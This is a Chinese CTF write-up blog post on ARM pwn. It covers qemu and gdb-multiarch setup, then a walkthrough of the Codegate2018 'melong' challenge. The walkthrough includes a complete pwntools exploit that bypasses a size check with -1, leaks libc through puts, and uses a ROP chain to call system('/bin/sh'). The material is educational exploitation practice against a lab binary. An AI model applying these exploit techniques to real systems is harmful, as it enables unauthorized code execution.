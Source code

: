 ```yaml
---
layout:     post
title:      arm架构 pwn入门之路
subtitle:   学习arm架构下pwn题目的调试
date:       2020-11-16
author:     X1ng
header-img: mips.jpg
catalog: true
tags:
    - pwn
    - 学习笔记

---
```


要期中考试了，水一篇ARM

## 环境搭建

网上的师傅们都讲的很详细了

我是看着[这个师傅的博客](https://www.jianshu.com/p/a7e2da50263e)装的环境

### 安装qemu

```shell
sudo apt-get install qemu
sudo apt-get install qemu-system qemu-user-static binfmt-support
```

### 安装依赖

```shell
sudo apt-get install -y gcc-arm-linux-gnueabi
sudo apt-get install qemu libncurses5-dev gcc-arm-linux-gnueabi 
sudo apt-get install build-essential synaptic gcc-aarch64-linux-gnu 
#sudo apt-get install gdb-arm-none-eabi
#sudo apt-get install eclipse-cdt
```

### 安装gdb-multiarch

```shell
sudo apt-get install gdb-multiarch
```



## 例题复现

### Codegate2018_melong

题目有libc和ld文件

例行检查

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr6aescr7j30km07smyx.jpg)

32位的arm小端序程序，只开启了NX保护

调试与mips下差不多

```shell
qemu-arm-static -L ./ ./melong
```

或者与pwntools联动

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
from time import sleep
import sys
context.binary = "./melong"

if sys.argv[1] == "r":
    io = remote("localhost", 9999)
elif sys.argv[1] == "l":
    io = process(["qemu-arm", "-L", "./", "./melong"])
else:
    io = process(["qemu-arm", "-g", "1234", "-L", "./", "./melong"])
```

另一个shell

```
gdb-multiarch ./test 
target remote 127.0.0.1:1234
```

ida打开

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr5ukg64wj30u00uc148.jpg)

有个菜单，以为是堆题，实际上是栈溢出

需要先check后才能进行其他操作

函数比较多，漏洞在write_diary函数中

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr67ufzklj31d90u0ais.jpg)

write_diary函数的第一个参数控制无符号整数nbyte，也就是read可以向栈中写入的字节，可以从mian函数中看到，就是PT函数的返回值，进入PT函数

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr67jclbej31d30u0k28.jpg)

发现整型返回值可以由用户输入，但是要绕过`ptr == (void)exc2`的检查，追踪exc2发现对其操作是在check函数的子函数get_result函数里

check函数

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr6sekcsjj31db0u0wql.jpg)

get_result函数

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr7ayqklfj30u01wbayd.jpg)

check函数限制只能check两次，而这个exc2应该是保存第二次check后bmi值的地方，要实现分配的chunk地址相等似乎有些困难，而且如果分配一个比较大的数字，需要等待sleep函数执行很久

但是看PT函数中的分支

```c
if ( ptr == (void *)exc2 )
  {
    puts("Okay, start to exercise!");
    for ( i = 0; i < (signed int)size; ++i )
    {
      puts("you are getting healthy..");
      sleep(1u);
    }
    free(ptr);
    v0 = size;
  }
```

在for循环的条件中用了强制类型转换，将size转换为无符号整数

如果让size等于-1的话，malloc会请求失败返回`NULL`，也就是0，而在第一次check之后exc2正好也是0

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr76g415pj310b0u07e9.jpg)

即绕过检查，又不用等待sleep函数，在write_diary函数中就可以随便写了

cyclic计算偏移后泄露地址

```python
check(1.76,103)
PT(-1)

pd = 'a'*0x54+p32(pop_r0_pc) + p32(elf.got['puts']) + p32(elf.plt['puts'])
pd += p32(elf.sym['main'])
write(pd)

io.sendlineafter(":", "6")
io.recvuntil("See you again :)\n")

libc.address = u32(io.recvn(4)) - libc.sym['puts']
print hex(libc.address)

io.interactive()
```

发现程序会崩溃，是因为puts函数在返回的时候并不是`pop pc`，而是`pop	{r4, r5, r6, r7, r8, r9, r10, pc}`

所以需要在前面补充一些垃圾数据,才能返回main函数

```python
check(1.76,103)
PT(-1)

pd = 'a'*0x54+p32(pop_r0_pc) + p32(elf.got['puts']) + p32(elf.plt['puts'])
pd += p32(0)*7+p32(elf.sym['main'])
write(pd)

io.sendlineafter(":", "6")
io.recvuntil("See you again :)\n")

libc.address = u32(io.recvn(4)) - libc.sym['puts']
print hex(libc.address)

io.interactive()
```

之后就是正常的rop了

exp:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
from time import sleep
import sys

context.binary = "./melong"
context.log_level = "debug"

if sys.argv[1] == "r":
    io = remote("",)
elif sys.argv[1] == "l":
    io = process(["qemu-arm", "-L", "./", "./melong"])
else:
    io = process(["qemu-arm", "-g", "1237", "-L", "./", "./melong"])

elf = ELF("./melong", checksec = False)
libc = ELF("./libc.so.6", checksec = False)

def check(height, weight):
    io.sendlineafter(":", "1")
    io.sendlineafter(" : ", str(height))
    io.sendlineafter(" : ", str(weight))

def PT(size):
    io.sendlineafter(":", "3")
    io.sendlineafter("?\n", str(size))

def write(payload):
    io.sendlineafter(":", "4")
    io.send(payload)

pop_r0_pc = 0x00011bbc

check(1.76,103)
PT(-1)

pd = 'a'*0x54 + p32(pop_r0_pc) + p32(elf.got['puts']) + p32(elf.plt['puts'])
pd += p32(0)*7 + p32(elf.sym['main'])
write(pd)

io.sendlineafter(":", "6")
io.recvuntil("See you again :)\n")

libc.address = u32(io.recvn(4)) - libc.sym['puts']
print hex(libc.address)

check(1.82, 60)
PT(-1)
pd = 'a'*0x54 + p32(pop_r0_pc) + p32(next(libc.search("/bin/sh"))) + p32(libc.sym['system'])
write(pd)
io.sendlineafter(":", "6")

io.interactive()
```





